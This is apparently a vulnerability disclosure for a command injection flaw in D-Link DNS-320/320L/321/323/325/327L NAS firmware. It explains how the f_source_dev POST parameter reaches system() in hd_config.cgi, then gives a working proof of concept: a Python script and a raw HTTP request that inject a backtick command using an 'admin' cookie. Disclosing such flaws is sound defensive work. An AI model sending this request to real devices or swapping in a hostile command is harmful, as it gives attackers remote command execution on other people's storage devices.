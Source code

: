 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)
# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_FMT_Std2R5_1st_DiskMGR function of the file /cgi-bin/hd_config.cgi.  The variable `f_source_dev`is passed from a POST request and is assigned to `v3` via the `sprintf` function at line 30 and invoked by the `system` command, it can lead to command execution. 
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723736562749-ba658c94-20f2-43a2-9ff9-e2e266b370ea.png#averageHue=%23fcfcfa&clientId=u066d5590-9cf5-4&from=paste&height=322&id=uba3bffd3&originHeight=322&originWidth=1264&originalType=binary&ratio=1&rotation=0&showTitle=false&size=62799&status=done&style=none&taskId=ucf6fd86c-3e3b-4eee-b61a-6f6022d1aad&title=&width=1264)
# POC
```java
import requests

url = "http://192.168.0.32/cgi-bin/hd_config.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_FMT_Std2R5_1st_DiskMGR&f_volume_name=1&f_source_dev=`touch+/tmp/133`&f_file_system=1&f_newly_dev=1"
response = requests.post(url, headers=headers, data=data)
print(response.text)
```

```java
POST /cgi-bin/hd_config.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 120
Origin: http://192.168.0.32
Connection: close
Referer: http://192.168.0.32/photo_center/index.html
Cookie: username=admin
Priority: u=1

cmd=cgi_FMT_Std2R5_1st_DiskMGR&f_volume_name=1&f_source_dev=`touch+/tmp/133`&f_file_system=1&f_newly_dev=1
```

